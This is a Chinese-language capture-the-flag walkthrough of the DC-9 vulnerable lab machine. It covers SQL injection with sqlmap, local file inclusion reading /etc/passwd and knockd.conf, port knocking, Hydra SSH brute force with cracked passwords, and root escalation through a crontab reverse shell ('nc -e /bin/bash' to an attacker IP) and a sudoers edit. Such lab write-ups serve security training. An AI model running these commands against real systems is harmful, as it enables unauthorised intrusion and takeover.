

DC-9 靶机渗透
1. 渗透过程
初期脚本扫描
扫描结果
可以发现 ip地址为：
192.168.0.114ssh (但是ssh无法访问了) 和 http服务s但是没有其他可用的信息
爆破一下目录
我这里用御剑爆破
输入url： http://192.168.0.114
访问 http://192.168.0.114/index.php 是一个员工信息的主页
search.php 有一个搜索框。admin.php。是一个登陆界面
逐个fuzzing一下Sql注入
可以发现存在sql注入
那就直接列表名
列出User表的字段
列出UserID，Username，Password字段的数据
得到账号密码：
1 | admin '856f5de590ef37314e7c3bdf6f8a66dc' |
密码是MD5的拿去破解一下
得到真正的账号密码
admin : transorbital1再用sqlmap跑跑其他数据库
1 | sqlmap -u http://192.168.146.147/results.php --data="search=1" --dbms mysql --dbs //information_schema，Staff，还有一个新表users |
得到一堆密码
先把他放到字典里，等下用来爆破用
登陆之后再welcome.php的下面看到
File does not exist可能有LFI
使用
burpsuite进行FUZZ可以看到
/etc/passwd提取用户名：
1 | marym |
本想用包含访问日志的，但是并不能包含访问日志，只能试试爆破SSH,但是SSH被过滤了
最后百度一大堆…
终于https://www.ibm.com/developerworks/cn/aix/library/au-sshlocks/index.html
知道
/etc/knockd.conf也许能解开22端口在http://192.168.0.114/welcome.php?file=../../../../../../etc/knockd.conf
得到ssh防御策略
意思是依次访问 7469,8475,9842端口就能解开22端口
1 | nc 192.168.0.114 7469 |
- 然后再用
Hydra爆破ssh
1 | hydra -L user.txt -P result.txt -t 4 ssh://192.168.0.114 |
得到3个用户名密码

登录进去看看呗
1 | ssh chandlerb@192.168.0.114 >> UrAG0D! |
都看了看，发现只有
janitor用户下有个有用的东西这里又有几个密码，做成字典爆破其他用户
1 | hydra -L user.txt -P pwd.txt -t 6 ssh://192.168.0.114 |
然后我们登录
fredf用户
1 | ssh fredf@192.168.0.114 >> B4-Tru3-001 |
发现
/opt/devstuff/dist/test/test可以不用root密码执行发现这是一个python打包好的程序
python文件在
/opt/devstuff/test.py
1 | fredf@dc-9:/opt/devstuff$ |
读取第一个参数的文件添加到第二个文件的里面
可以利用计划任务来反弹shell
先看看计划任务
1 | fredf@dc-9:/opt/devstuff/dist$ cat /etc/crontab |
- 先在/tmp目录下写上
1 | echo '*/1 * * * * root nc -e /bin/bash 192.168.0.21 8899' > /tmp/crontab- |
然后kali监听好，等一小会就能得到root权限了
等了半天发现没反应~，原来是没有nc
那就通过
/etc/sudoers文件来给当前用户root权限
1 | echo 'fredf ALL=(ALL:ALL) ALL' > /tmp/sudo- |
就完成了
~THE_END!